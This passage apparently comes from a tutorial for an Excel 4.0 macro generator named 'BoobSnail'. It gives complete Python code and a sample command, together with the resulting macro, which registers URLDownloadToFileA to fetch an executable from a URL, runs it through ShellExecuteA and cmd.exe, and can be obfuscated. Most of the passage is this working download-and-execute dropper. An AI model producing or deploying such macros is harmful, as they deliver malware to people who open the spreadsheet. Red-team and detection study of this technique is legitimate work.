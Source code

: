 So it should be:

    # Represents =DOWNLOAD(0,"{URL_FROM_CMD_LINE}",exepath,0,0)
    self.macro.formula(download_call.get_call_name(), 0, self.args.url, exe_path, 0, 0)

Now we would like to create Excel 4.0 variable with Excel4 formula as value (args=CONCATENATE("/c ",exepath)). To create a formula call that is treated as an argument we need to use Excel4Macro.argument function.

    # Represents args=CONCATENATE("/c ",exepath)
    shell_arg = self.macro.variable("args", self.macro.argument("CONCATENATE", "/c ", exe_path))

Rest of the code is created in the same way, here is full code:

    def generate_macro(self):
      exe_path = self.macro.variable("exepath", "C:\\Users\\Public\\test.exe")
      download_call = self.macro.register_url_download_to_file_a("DOWNLOAD")
      self.macro.formula(download_call.get_call_name(), 0, self.args.url, exe_path, 0, 0)
      shell_arg = self.macro.variable("args", self.macro.argument("CONCATENATE", "/c ", exe_path))
      execute_call = self.macro.register_shell_execute("CMDRUN")
      self.macro.formula(execute_call.get_call_name(), 0, "open", "C:\\Windows\\System32\\cmd.exe", shell_arg, 0, 5)
      self.macro.to_csv_file(self.args.out)

If you are ready, try to run our newly created generator with the following command:

    python boobsnail.py Excel4DownloadExecuteGenerator -u http://127.0.0.1:8080/msg.exe -do -o boobsnail.csv

Following macro should be created:

    exepath="C:\Users\Public\test.exe";
    =REGISTER("urlmon","URLDownloadToFileA","JJCCJJ","DOWNLOAD","",1,9);
    =DOWNLOAD(0,"http://127.0.0.1:8080/msg.exe",exepath,0,0);
    args=CONCATENATE("/c ",exepath);
    =REGISTER("Shell32","ShellExecuteA","JJCCCJJ","CMDRUN","",1,9);
    =CMDRUN(0,"open","C:\Windows\System32\cmd.exe",args,0,5);

You can generate obfuscated macro by removing -do flag.
